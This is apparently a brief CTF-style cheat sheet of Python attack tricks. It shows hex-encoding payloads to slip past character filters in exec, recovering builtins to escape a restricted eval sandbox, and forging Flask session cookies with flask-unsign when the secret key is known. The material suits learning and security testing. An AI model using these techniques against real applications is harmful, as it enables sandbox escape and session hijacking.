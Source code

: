# File template
```python
#!/usr/bin/env python3

def main():
    # CODE

if __name__ == '__main__':
    main()
```

# Characters not allowed
Python commands can be run in hex form:
```python
string = 'command to be executed'
chars_not_allowed = '[]{}.1'
encoded = ['\\x' + x.encode('hex') for x in chars_not_allowed]
for i in range(len(encoded)):
    string = string.replace(chars_not_allowed[i], encoded[i])
exec(string)
```
Note: The transitions back only happen when the hex is in a string! You might want to escape `'` and `"` in the string!

Note: Try adding more `\\`'s if it doesn't work (`\\`, `\\\\`, `\\\\\\\\`)

# Recovering builtins
Whenever you're in a situation where `{'__builtins__': None}`, the builtins can be recovered.

`s = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['FUNCTIONNAME'](ARGUMENTS)"; exec(s, {'builtins': None})`

[More info](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html)

# Flask
## Crafting sessions tokens
When the SECRET_KEY is given, these tokens can be maliciously crafted.

The tool [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) provides us many useful functions.

Crafting: `flask-unsign --legacy --sign --cookie '{"key":val}' --secret 'SECRET_KEY'`

They can also be decoded: `flask-unsign --decode --cookie 'cookie_val'`
